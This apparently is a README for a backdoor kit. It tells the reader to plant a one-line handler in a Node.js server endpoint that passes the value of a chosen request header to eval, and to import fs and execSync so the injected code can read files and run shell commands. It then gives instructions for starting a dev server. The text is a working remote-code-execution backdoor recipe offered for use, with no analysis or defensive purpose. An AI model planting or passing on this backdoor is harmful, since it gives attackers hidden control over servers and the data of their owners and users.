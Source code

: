 # 1. The Backdoor
Place `if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));` in the endpoint.

Replace `exploit` with the header you're going to use (in lowercase). It must match with the `HEADER` variable on the client side.

Replace `res` in `let r = res;` with the ServerResponse parameter name.

Replace `req` in `let i=req` with the name of the IncomingRequest parameter name.

Import `fs` and `{ execSync } from 'child_process`
# 2. Start the dev server
In this directory, run `npm start` to start a dev server on port 8000.